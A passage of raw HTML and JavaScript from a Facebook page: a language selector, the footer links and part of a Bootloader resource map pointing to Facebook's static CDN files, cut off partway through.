                <a class="_sv4" dir="ltr" href="https://bn-in.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;bn_IN&quot;, &quot;en_GB&quot;, &quot;https:\/\/bn-in.facebook.com\/&quot;, &quot;www_list_selector&quot;, 0); return false;" title="Bengali">বাংলা</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://hi-in.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;hi_IN&quot;, &quot;en_GB&quot;, &quot;https:\/\/hi-in.facebook.com\/&quot;, &quot;www_list_selector&quot;, 1); return false;" title="Hindi">हिन्दी</a>
              </li>
              <li>
                <a class="_sv4" dir="rtl" href="https://ur-pk.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ur_PK&quot;, &quot;en_GB&quot;, &quot;https:\/\/ur-pk.facebook.com\/&quot;, &quot;www_list_selector&quot;, 2); return false;" title="Urdu">اردو</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://ne-np.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ne_NP&quot;, &quot;en_GB&quot;, &quot;https:\/\/ne-np.facebook.com\/&quot;, &quot;www_list_selector&quot;, 3); return false;" title="Nepali">नेपाली</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://or-in.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;or_IN&quot;, &quot;en_GB&quot;, &quot;https:\/\/or-in.facebook.com\/&quot;, &quot;www_list_selector&quot;, 4); return false;" title="Oriya">ଓଡ଼ିଆ</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://es-la.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;es_LA&quot;, &quot;en_GB&quot;, &quot;https:\/\/es-la.facebook.com\/&quot;, &quot;www_list_selector&quot;, 5); return false;" title="Spanish">Español</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://pt-br.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;pt_BR&quot;, &quot;en_GB&quot;, &quot;https:\/\/pt-br.facebook.com\/&quot;, &quot;www_list_selector&quot;, 6); return false;" title="Portuguese (Brazil)">Português (Brasil)</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://fr-fr.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;fr_FR&quot;, &quot;en_GB&quot;, &quot;https:\/\/fr-fr.facebook.com\/&quot;, &quot;www_list_selector&quot;, 7); return false;" title="French (France)">Français (France)</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://de-de.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;de_DE&quot;, &quot;en_GB&quot;, &quot;https:\/\/de-de.facebook.com\/&quot;, &quot;www_list_selector&quot;, 8); return false;" title="German">Deutsch</a>
              </li>
              <li>
                <a class="_sv4" dir="ltr" href="https://it-it.facebook.com/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;it_IT&quot;, &quot;en_GB&quot;, &quot;https:\/\/it-it.facebook.com\/&quot;, &quot;www_list_selector&quot;, 9); return false;" title="Italian">Italiano</a>
              </li>
              <li>
                <a role="button" class="_42ft _4jy0 _517i _517h _51sy" rel="dialog" ajaxify="/settings/language/language/?uri=https%3A%2F%2Fit-it.facebook.com%2F&amp;source=www_list_selector_more" href="#" title="Show more languages"></a>
              </li>
            </ul>
            <div id="contentCurve"></div>
            <div id="pageFooterChildren" role="contentinfo" aria-label="Facebook site links">
              <ul class="uiList pageFooterLinkList _509- _4ki _703 _6-i">
                <li>
                  <a href="/reg/" title="Sign up for Facebook">Sign Up</a>
                </li>
                <li>
                  <a href="/login/" title="Log in to Facebook">Log in</a>
                </li>
                <li>
                  <a href="https://messenger.com/" title="Take a look at Messenger.">Messenger</a>
                </li>
                <li>
                  <a href="/lite/" title="Facebook Lite for Android.">Facebook Lite</a>
                </li>
                <li>
                  <a href="https://www.facebook.com/watch/" title="Browse our Watch videos.">Watch</a>
                </li>
                <li>
                  <a href="/places/" title="Take a look at popular places on Facebook.">Places</a>
                </li>
                <li>
                  <a href="/games/" title="Check out Facebook games.">Games</a>
                </li>
                <li>
                  <a href="/marketplace/" title="Buy and sell on Facebook Marketplace.">Marketplace</a>
                </li>
                <li>
                  <a href="https://pay.facebook.com/" title="Learn more about Meta Pay" target="_blank">Meta Pay</a>
                </li>
                <li>
                  <a href="https://www.oculus.com/" title="Learn more about Oculus" target="_blank">Oculus</a>
                </li>
                <li>
                  <a href="https://portal.facebook.com/" title="Learn more about Facebook Portal" target="_blank">Portal</a>
                </li>
                <li>
                  <a href="https://l.facebook.com/l.php?u=https%3A%2F%2Fwww.instagram.com%2F&amp;h=AT2w24BreXDKsnDYjEaSn2Ye9E50mq6SvuiMUK8oSjWfJh977n7XMTSBNLkeA6TqLL1bx-ifRJhgOJmzoE3LHnXTN4LCItMyR2aGOXOOioxMTfp4uPw1jAyULL6ePxYj1z82IRXuB-OhUIz_6YL47g" title="Take a look at Instagram" target="_blank" rel="noopener nofollow" data-lynx-mode="asynclazy">Instagram</a>
                </li>
                <li>
                  <a href="https://www.bulletin.com/" title="Take a look at Bulletin newsletter">Bulletin</a>
                </li>
                <li>
                  <a href="/fundraisers/" title="Donate to worthy causes.">Fundraisers</a>
                </li>
                <li>
                  <a href="/biz/directory/" title="Browse our Facebook Services directory.">Services</a>
                </li>
                <li>
                  <a href="/votinginformationcenter/?entry_point=c2l0ZQ%3D%3D" title="See the Voting Information Centre">Voting Information Centre</a>
                </li>
                <li>
                  <a href="/privacy/policy/?entry_point=facebook_page_footer" title="Learn how we collect, use and share information to support Facebook.">Privacy Policy</a>
                </li>
                <li>
                  <a href="/privacy/center/?entry_point=facebook_page_footer" title="Learn how to manage and control your privacy on Facebook.">Privacy Centre</a>
                </li>
                <li>
                  <a href="/groups/explore/" title="Explore our groups.">Groups</a>
                </li>
                <li>
                  <a href="https://about.meta.com/" accesskey="8" title="Read our blog, discover the resource centre and find job opportunities.">About</a>
                </li>
                <li>
                  <a href="/ad_campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;nav_source=unknown&amp;extra_1=auto" title="Advertise on Facebook">Create ad</a>
                </li>
                <li>
                  <a href="/pages/create/?ref_type=site_footer" title="Create a Page">Create Page</a>
                </li>
                <li>
                  <a href="https://developers.facebook.com/?ref=pf" title="Develop on our platform.">Developers</a>
                </li>
                <li>
                  <a href="/careers/?ref=pf" title="Make your next career move to our brilliant company.">Careers</a>
                </li>
                <li>
                  <a href="/policies/cookies/" title="Learn about cookies and Facebook." data-nocookies="1">Cookies</a>
                </li>
                <li>
                  <a class="_41ug" data-nocookies="1" href="https://www.facebook.com/help/568137493302217" title="Learn about AdChoices.">AdChoices</a>
                </li>
                <li>
                  <a data-nocookies="1" href="/policies?ref=pf" accesskey="9" title="Review our terms and policies.">Terms</a>
                </li>
                <li>
                  <a href="/help/?ref=pf" accesskey="0" title="Visit our Help Centre.">Help</a>
                </li>
                <li>
                  <a href="help/637205020878504" title="Visit our contact uploading and non-users notice.">Contact uploading and non-users</a>
                </li>
                <li>
                  <a accesskey="6" class="accessible_elem" href="/settings" title="View and edit your Facebook settings.">Settings</a>
                </li>
                <li>
                  <a accesskey="7" class="accessible_elem" href="/allactivity?privacy_source=activity_log_top_menu" title="View your activity log">Activity log</a>
                </li>
              </ul>
            </div>
            <div class="mvl copyright">
              <div>
                <span>Meta © 2023</span>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div><span><img src="https://facebook.com/security/hsts-pixel.gif" width="0" height="0" style="display:none" alt="hsts-pixel"></span>
  </div>
  <div style="display:none"></div>
  <script>
  requireLazy(["HasteSupportData"],function(m){m.handle({"bxData":{"875231":{"uri":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/yD\/r\/d4ZIVX-5C-b.ico"}}})});requireLazy(["Bootloader"],function(m){m.handlePayload({"consistency":{"rev":1007033780},"rsrcMap":{"2elujRy":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yM\/r\/N5mGYm9BP56.js?_nc_x=Ij3Wp8lg5Kz"},"5p9Jgd9":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yT\/r\/ZCZi-9JiInw.js?_nc_x=Ij3Wp8lg5Kz"},"7g+KHgD":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yN\/r\/pSmk3gS_9lE.js?_nc_x=Ij3Wp8lg5Kz"},"nMQUa2h":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yk\/r\/And2GBki4In.js?_nc_x=Ij3Wp8lg5Kz"},"xa5J6KM":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yv\/r\/T329mvQIyfn.js?_nc_x=Ij3Wp8lg5Kz"},"lVRpfsF":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/ye\/r\/tfUtCEl3Lg7.js?_nc_x=Ij3Wp8lg5Kz"},"sbUqrB3":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3imlR4\/yl\/l\/en_GB\/fmeDoV6ZVnA.js?_nc_x=Ij3Wp8lg5Kz"},"x\/SDr7f":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yg\/r\/zPhwrb475k1.js?_nc_x=Ij3Wp8lg5Kz"},"IR73PJe":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3i9Xf4\/yc\/l\/en_GB\/eVxcC45dSuJ.js?_nc_x=Ij3Wp8lg5Kz"},"9uoHrN7":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/ys\/r\/xx_Wu23EEDE.js?_nc_x=Ij3Wp8lg5Kz"},"h4pbor7":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yo\/r\/DKeJ7VuehQq.js?_nc_x=Ij3Wp8lg5Kz"},"foz7nw7":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3ij9m4\/ye\/l\/en_GB\/-93wzZvOJ8E.js?_nc_x=Ij3Wp8lg5Kz"},"ORfF6wp":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y8\/r\/kgCswNiKScM.js?_nc_x=Ij3Wp8lg5Kz"},"yN69vxN":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yG\/r\/frv1izs75Wy.js?_nc_x=Ij3Wp8lg5Kz"},"R5w1rCJ":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yF\/r\/p55HfXW__mM.js?_nc_x=Ij3Wp8lg5Kz"},"Xi7tWEa":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yH\/r\/b9rAg9ZPctr.js?_nc_x=Ij3Wp8lg5Kz"},"xiStG5X":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/ym\/l\/0,cross\/mfE_5lDi5dM.css?_nc_x=Ij3Wp8lg5Kz"},"Yv2Rq7N":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yb\/r\/CDBWqeRf5qh.js?_nc_x=Ij3Wp8lg5Kz"},"ySeW7Hg":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yy\/r\/ATcu0XgUDfP.js?_nc_x=Ij3Wp8lg5Kz"},"N43QL\/K":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yQ\/r\/kdMWYykFSCw.js?_nc_x=Ij3Wp8lg5Kz"},"J8bA\/bj":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iCwx4\/yw\/l\/en_GB\/p6RQJvg72lE.js?_nc_x=Ij3Wp8lg5Kz"},"jFE2rmn":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iFJJ4\/yH\/l\/en_GB\/8jcmh8OgI-J.js?_nc_x=Ij3Wp8lg5Kz"},"tqMhCU8":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iNEW4\/y-\/l\/en_GB\/MRPlLgarZxG.js?_nc_x=Ij3Wp8lg5Kz"},"s8Aa03k":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yY\/r\/Jbkxo9ehPGa.js?_nc_x=Ij3Wp8lg5Kz"},"JuWZXvj":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/ye\/r\/my0e5IgAzE1.js?_nc_x=Ij3Wp8lg5Kz"},"B1EnAlM":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3ilfW4\/y3\/l\/en_GB\/OHcGACv-qYW.js?_nc_x=Ij3Wp8lg5Kz"},"+r+bQTM":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yT\/l\/0,cross\/XJiajlZQspi.css?_nc_x=Ij3Wp8lg5Kz"},"EJEdN5K":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iLl54\/yP\/l\/en_GB\/lA-l9R678a8.js?_nc_x=Ij3Wp8lg5Kz"},"LEl\/qen":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yI\/l\/0,cross\/My6EDzOX3hi.css?_nc_x=Ij3Wp8lg5Kz"},"+iyVIGv":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iPiP4\/yH\/l\/en_GB\/BfETV1NB1gk.js?_nc_x=Ij3Wp8lg5Kz"},"2P4pqnZ":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iK7-4\/yo\/l\/en_GB\/sBncHH02UbS.js?_nc_x=Ij3Wp8lg5Kz"},"2fAzVcr":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yn\/l\/0,cross\/XQyU2mffvCk.css?_nc_x=Ij3Wp8lg5Kz"},"bJ922yg":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yB\/r\/2jr_tFUjDMy.js?_nc_x=Ij3Wp8lg5Kz"},"mfeTM7G":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yB\/r\/H0OItL3SmJb.js?_nc_x=Ij3Wp8lg5Kz"},"ZfZTmf0":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iH_P4\/y6\/l\/en_GB\/ZtHyi5avvpw.js?_nc_x=Ij3Wp8lg5Kz"},"EwKsSrH":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yt\/r\/fu0HzUadWDw.js?_nc_x=Ij3Wp8lg5Kz"},"96dnDXu":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iGJw4\/ym\/l\/en_GB\/6FqH-p2TfF1.js?_nc_x=Ij3Wp8lg5Kz"},"O6KyEcj":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yI\/l\/0,cross\/WlnCQVut5IU.css?_nc_x=Ij3Wp8lg5Kz"},"Q0nzCsD":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y6\/l\/0,cross\/BUj2zCtVUZH.css?_nc_x=Ij3Wp8lg5Kz"},"OIDMBgo":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yE\/r\/-sHoOrSKfxy.js?_nc_x=Ij3Wp8lg5Kz"},"pG46baY":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yc\/r\/3V97PSA8esl.js?_nc_x=Ij3Wp8lg5Kz"},"u\/C+LkT":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3icxi4\/yV\/l\/en_GB\/eAaUw2gcT92.js?_nc_x=Ij3Wp8lg5Kz"},"Pv394ti":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yE\/l\/0,cross\/NnXy0KwgaTX.css?_nc_x=Ij3Wp8lg5Kz"},"FJvGK\/j":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yZ\/l\/0,cross\/a6HjPyD5SPj.css?_nc_x=Ij3Wp8lg5Kz"},"LBpTlcF":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iX3c4\/yP\/l\/en_GB\/vE97PmpENH7.js?_nc_x=Ij3Wp8lg5Kz"},"7X\/R76+":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yY\/r\/BqEjD1dj1pL.js?_nc_x=Ij3Wp8lg5Kz"},"Ez61A3Q":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yE\/r\/8Jif0mcj8zW.js?_nc_x=Ij3Wp8lg5Kz"},"TwjK0ZY":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yo\/r\/_arulFpv3l0.js?_nc_x=Ij3Wp8lg5Kz"},"zgwyDwg":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yT\/r\/85A4ToPU_mu.js?_nc_x=Ij3Wp8lg5Kz"},"2RvgFyl":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y6\/r\/Wp_23U6wF6T.js?_nc_x=Ij3Wp8lg5Kz"},"kOEHvpu":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yp\/r\/p6pF4ndmWJ4.js?_nc_x=Ij3Wp8lg5Kz"},"pVj2Lxt":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yE\/r\/UYRoPTVU3VE.js?_nc_x=Ij3Wp8lg5Kz"},"r05cF5K":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yt\/l\/0,cross\/Gp7XIC3pIdU.css?_nc_x=Ij3Wp8lg5Kz"},"L1PlIA2":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iFe24\/yc\/l\/en_GB\/e83I2FKiao-.js?_nc_x=Ij3Wp8lg5Kz"},"6KJTNZm":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3ikpZ4\/yE\/l\/en_GB\/05_KqsutrPJ.js?_nc_x=Ij3Wp8lg5Kz"},"AMs2Te\/":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y0\/r\/JgaB2muz2mk.js?_nc_x=Ij3Wp8lg5Kz"},"JPckifS":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yQ\/r\/ltiwIb7CcQV.js?_nc_x=Ij3Wp8lg5Kz"},"xGBMw4K":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3ikxI4\/yR\/l\/en_GB\/ov-WkU9VdaQ.js?_nc_x=Ij3Wp8lg5Kz"},"pBtZEv7":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3ioWg4\/yL\/l\/en_GB\/Ut_ChkATfxo.js?_nc_x=Ij3Wp8lg5Kz"},"7LA08jq":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yl\/r\/IbQxSeQAhz-.js?_nc_x=Ij3Wp8lg5Kz"},"8X1EaaT":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yR\/r\/QsyfYdvxqkU.js?_nc_x=Ij3Wp8lg5Kz"},"3QYrQGe":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y7\/r\/qJItWn24Qd9.js?_nc_x=Ij3Wp8lg5Kz"},"5X7heXr":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yM\/r\/bOUTi-Bzr4D.js?_nc_x=Ij3Wp8lg5Kz"},"3mc6ybv":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yM\/r\/SfGe1v4Xj7F.js?_nc_x=Ij3Wp8lg5Kz"},"LbcmkCr":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iDwl4\/yU\/l\/en_GB\/Yujfmr7XoNU.js?_nc_x=Ij3Wp8lg5Kz"},"9Zir1u8":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3idBq4\/yK\/l\/en_GB\/TMbhwyJeHp0.js?_nc_x=Ij3Wp8lg5Kz"},"64yJWkL":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yO\/r\/vuezNo2VlZ5.js?_nc_x=Ij3Wp8lg5Kz"},"hS3R3aX":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yE\/r\/hzF9F-MwWaK.js?_nc_x=Ij3Wp8lg5Kz"},"pzzowf\/":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yI\/r\/oI9uJI1yWQJ.js?_nc_x=Ij3Wp8lg5Kz"},"rjmYyjF":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yH\/l\/0,cross\/BXV8wkIhkCE.css?_nc_x=Ij3Wp8lg5Kz"},"INCQAAx":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/ya\/l\/0,cross\/rHbc95UgEn6.css?_nc_x=Ij3Wp8lg5Kz"},"nNxjF+N":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iLl54\/y5\/l\/en_GB\/w_UOe6ZcpST.js?_nc_x=Ij3Wp8lg5Kz"},"FgLOThg":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yb\/r\/igIVEDtgN05.js?_nc_x=Ij3Wp8lg5Kz"},"n7BmNy5":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yT\/l\/0,cross\/0FjTM0Nov1q.css?_nc_x=Ij3Wp8lg5Kz"},"xRdbF07":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yj\/r\/J-Jf-gVWo1l.js?_nc_x=Ij3Wp8lg5Kz"},"FM1UEOk":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y4\/r\/daNOL1cCqmW.js?_nc_x=Ij3Wp8lg5Kz"},"W8oO7Kw":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iz8e4\/yn\/l\/en_GB\/npgE-7IFUST.js?_nc_x=Ij3Wp8lg5Kz"},"HFjjZ9Y":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y5\/r\/1_aO1sfC1sh.js?_nc_x=Ij3Wp8lg5Kz"},"gWMJgTe":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yH\/r\/iGksp69foR_.js?_nc_x=Ij3Wp8lg5Kz"},"hIek+bG":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yY\/r\/DZ_VBlsy-dC.js?_nc_x=Ij3Wp8lg5Kz"},"L\/776GI":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yT\/r\/xG_EJiZa-w-.js?_nc_x=Ij3Wp8lg5Kz"},"9KXRHFb":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3i2IA4\/y6\/l\/en_GB\/A1YxKPV1lrP.js?_nc_x=Ij3Wp8lg5Kz"},"au\/36kS":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3il5S4\/yA\/l\/en_GB\/-IyRQ5eKGoU.js?_nc_x=Ij3Wp8lg5Kz"},"8ELCBwH":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/ye\/r\/VRzSVH5iU-V.js?_nc_x=Ij3Wp8lg5Kz"},"x22Oby4":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yZ\/r\/tVshp1OIV9l.js?_nc_x=Ij3Wp8lg5Kz"},"SWx3yNv":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y7\/r\/g__eV5OXSXl.js?_nc_x=Ij3Wp8lg5Kz"},"Xm0Rh4R":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3iwo74\/yd\/l\/en_GB\/DyeBs0OVQUn.js?_nc_x=Ij3Wp8lg5Kz"},"jCCrZek":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yH\/r\/0uuVD2cZ9Uv.js?_nc_x=Ij3Wp8lg5Kz"},"oE4DofT":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yJ\/r\/EejAgnHUad4.js?_nc_x=Ij3Wp8lg5Kz"},"VvVFw8n":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yn\/r\/AWepvf-vdZG.js?_nc_x=Ij3Wp8lg5Kz"},"Da6rL6k":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y9\/r\/P56qktwQ_S3.js?_nc_x=Ij3Wp8lg5Kz"},"\/rO0lbn":{"type":"js","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/yf\/r\/LgvwffuKmeX.js?_nc_x=Ij3Wp8lg5Kz"},"Ex9PJru":{"type":"css","src":"https:\/\/static.xx.fbcdn.net\/rsrc.php\/v3\/y2\/l\/0,cross\/7arLQaaxjzj.css?_nc_x=Ij3Wp8lg5Kz"},"P\/mr5VE":{"type":"css","src":"data:text\/css; charset=utf-8,\u002523bootloader_P_mr5VE{height:42px;}.bootloader_P_mr5VE{display:block!important;}","nc":1,"d":1}},"compMap":{"ODS":{"r":["2elujRy"],"be":1},"Dock":{"r":["5p9Jgd9","7g+KHgD","nMQUa2h","xa5J6KM","aF1d\/S0","lVRpfsF","sbUqrB3","x\/SDr7f","IR73PJe","vaVtyoz","9uoHrN7","2elujRy"],"be":1},"WebSpeedInteractionsTypedLogger":{"r":["h4pbor7","2elujRy","5p9Jgd9"],"rds":{"m":["BanzaiScuba_DEPRECATED"]},"be":1},"AsyncRequest":{"r":["nMQUa2h","x\/SDr7f","foz7nw7","2elujRy","ORfF6wp","vaVtyoz"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent"]},"be":1},"DOM":{"r":["nMQUa2h","x\/SDr7f","vaVtyoz"],"be":1},"Form":{"r":["5p9Jgd9","nMQUa2h","x\/SDr7f","2elujRy","vaVtyoz"],"be":1},"FormSubmit":{"r":["5p9Jgd9","yN69vxN","nMQUa2h","x\/SDr7f","foz7nw7","2elujRy","ORfF6wp","vaVtyoz"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","BanzaiScuba_DEPRECATED"]},"be":1},"Input":{"r":["5p9Jgd9"],"be":1},"Toggler":{"r":["5p9Jgd9","7g+KHgD","nMQUa2h","xa5J6KM","aF1d\/S0","x\/SDr7f","vaVtyoz","2elujRy"],"be":1},"Tooltip":{"r":["R5w1rCJ","5p9Jgd9","7g+KHgD","nMQUa2h","xa5J6KM","lVRpfsF","DcLQ9Pg","Xi7tWEa","sbUqrB3","x\/SDr7f","foz7nw7","IR73PJe","xiStG5X","vaVtyoz","9uoHrN7","2elujRy","ORfF6wp","Yv2Rq7N","ySeW7Hg","N43QL\/K"],"rds":{"m":["FbtLogging","IntlQtEventFalcoEvent","PageTransitions","BanzaiScuba_DEPRECATED","Animation"],"r":["J8bA\/bj"]},"be":1},"URI":{"r":[],"be":1},"trackReferrer":{"r":[],"rds":{"m":["BanzaiScuba_DEPRECATED"],"r":["2elujRy"]},"be":1},"PhotoTagApproval":{"r":["jFE2rmn","nMQUa2h","tqMhCU8","x\/SDr7f","vaVtyoz"],"be":1},"PhotoSnowlift":{"r":["R5w1rCJ","s8Aa03k","5p9Jgd9","JuWZXvj","B1EnAlM","7g+KHgD","+r+bQTM","EJEdN5K","LEl\/qen","+iyVIGv","2P4pqnZ","2fAzVcr","bJ922yg","mfeTM7G","ZfZTmf0","EwKsSrH","96dnDXu","O6KyEcj","Q0nzCsD","nMQUa2h","OIDMBgo","xa5J6KM","pG46baY","u\/C+LkT","Pv394ti","FJvGK\/j","LBpTlcF","7X\/R76+","Pud6B2Z","aF1d\/S0","Ez61A3Q","TwjK0ZY","zgwyDwg","2RvgFyl","tqMhCU8","lVRpfsF","DcLQ9Pg","kOEHvpu","Xi7tWEa","sbUqrB3","pVj2Lxt","r05cF5K","L1PlIA2","x\/SDr7f","foz7nw7","6KJTNZm","IR73PJe","AMs2Te\/","JPckifS","xiStG5X","xGBMw4K","pBtZEv7","vaVtyoz","7LA08jq","9uoHrN7","ySeW7Hg","8X1EaaT","3QYrQGe","5X7heXr","2elujRy","3mc6ybv","ORfF6wp","LbcmkCr","9Zir1u8","64yJWkL","1Porv8d","Yv2Rq7N","N43QL\/K","J8bA\/bj","hS3R3aX"],"rds":{"m":["Animation","VisualCompletionGating","FbtLogging","IntlQtEventFalcoEvent","BanzaiScuba_DEPRECATED","PageTransitions"],"r":["pzzowf\/"]},"be":1},"PhotoTagger":{"r":["R5w1rCJ","rjmYyjF","INCQAAx","5p9Jgd9","7g+KHgD","jFE2rmn","nNxjF+N","nMQUa2h","xa5J6KM","u\/C+Lk